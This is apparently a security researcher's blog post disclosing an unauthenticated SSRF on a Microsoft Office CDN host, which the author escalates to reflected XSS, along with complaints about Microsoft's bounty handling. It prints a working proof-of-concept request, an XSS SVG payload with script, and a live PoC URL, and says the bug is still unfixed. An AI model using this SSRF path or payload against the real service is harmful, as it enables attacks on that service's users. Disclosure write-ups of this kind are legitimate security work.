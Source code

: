 ```yaml
---
title: "Unauthenticated SSRF in Office.net"
date: 2024-10-28T20:20:19-04:00
draft: true
tags: ["notes", "microsoft", "ssrf", "xss"]
---
```


In late September I reported an unauthenticated SSRF I'd found on Office.net to MSRC, only to receive a response that said I had included no reproduction steps, and therefore the report was invalid and would be closed. 

Obviously, the report had reproduction steps. So I replied, directing them to *the report* (which included reproduction steps), and was met with the same response. The report was closed, and I was pretty miffed. 

It sucks, but it's actually not the first time it's happened to me, in similar form, so I filed it back into my pile of orphaned MS bugs and ended up looking back at it again a week later. 

*Once, I had a report for a bug in Teams get automatically closed, and got a response about it not meeting criteria for bugs in Bing. After asking what the fuck Bing had to do with anything, I received:*
> "There seems like there may have been a mix-up on our end. You are correct, this case does not deal with BingAI" 

*No joke. They later paid out $5,000 for that disclosure.*

### SSRF Details

The SSRF wasn't complex, a URL path parameter caused an HTTP request to arbitrary domains, but it was restricted to image files and responded with 405's and a `Content-Type not allowed` response body for anything but. While it could only retrieve image contents.

Here's a poc request:
```
GET /localh0st.run/test?testParam=test HTTP/1.1
Host: media.akamai.odsp.cdn.office.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
TEST-HEADER: This is a test header through an SSRF
```

and what `localh0st.run` receives:
```
GET /test?testParam=test HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
TEST-HEADER: This is a test header through an SSRF
Pragma: akamai-x-cache-remote-on
X-Akamai-CONFIG-LOG-DETAIL: true
TE:  chunked;q=1.0
Connection: TE
Accept-Encoding: gzip
Akamai-Origin-Hop: 1
Via: 1.1 akamai.net(ghost) (AkamaiGHost)
X-Forwarded-For: 6x.xx.xx.xx7
True-Client-IP: 6x.xx.xx.xx7
Host: localh0st.run
Cache-Control: max-age=86400
Connection: keep-alive
```

Not a crazy bug, but it allows proxying of GET requests, including headers and parameters, to arbitrary resources. Note the included `TEST-HEADER: This is a test header through an SSRF` header.

### SSRF --> XSS

I went back a week or two later to resubmit it, and decided to take a second look. This time I fuzzed for accepted file extensions and found SVGs were returned successfully. I made a quick XSS SVG PoC and boom, Reflected XSS on Office.net through an externally hosted SVG!

classic XSS svg:
```
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">  
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>  
<script type="text/javascript">  
alert(document.location);  
</script>  
</svg>
```

PoC URL:

`https://media.akamai.odsp.cdn.office.net/localh0st.run/tests/test.svg`

![XSS-1](<screens/Pasted image 20241001210323.png>)

### Bounty? You wish!

Sadly, even though this was an unauthenticated SSRF, leading to XSS via an externally hosted SVG, that additionally allowed both arbitrary URL parameters *and* arbitrary headers sent to external and internal resources, Microsoft said the following:

![alt text](<screens/Pasted image 20241028100744.png>)

I feel like the "as presented" wording is a bit of a "gotcha" (it's XSS, come on), but MS has very strict categorization of issues, defined here: https://www.microsoft.com/en-us/msrc/olsbugbar

This XSS apparently only meets the "General - Moderate" classification: 
> XSS triggering on public pages that does not disclose private data or allow the compromise of an authenticated session

Interestingly however, the SSRF meets the "Confidential - Important" criteria:
> SSRF vulnerability sending requests to sensitive internal endpoints that leaks sensitive information or performs a sensitive action 

Microsoft, however, does not agree.

### Status: Complete

It took a bit of digging through MS documentation, [but a disclosure status of **Complete**, states](https://msrc.microsoft.com/blog/2023/07/what-to-expect-when-reporting-vulnerabilities-to-microsoft/) "Congratulations! You will now be free to discuss your findings publicly if you wish."

So, while this issues remains actively vulnerable, Microsoft has been made aware, they decided it's not really an issue, and given their blessing for public disclosure.

I don't get it either, but it's public now so have fun I guess.